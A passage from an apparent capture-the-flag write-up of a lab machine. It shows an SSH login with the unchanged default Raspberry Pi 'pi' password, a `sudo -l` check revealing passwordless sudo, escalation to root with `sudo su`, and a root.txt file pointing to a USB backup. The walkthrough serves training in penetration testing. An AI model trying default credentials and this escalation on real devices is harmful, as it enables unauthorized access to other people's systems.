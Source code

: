 ```
┌──(root@kali)-[~]
└─# ssh pi@10.10.10.48    
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

And we successfully logged in. As always, before I run any enumeration tools I like to just do a quick `sudo -l` to see if I am able to execute certain things with sudo permissions.

## Privilege Escalation

```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

And it tells me that I can just run whatever I want with `sudo` with no password. I'm just going to type `sudo su` and get root.

```
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

Usually I would just stop here since I got root, but the `root.txt` isn't actually just laying in plain sight. 

```
root@raspberrypi:/home/pi# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
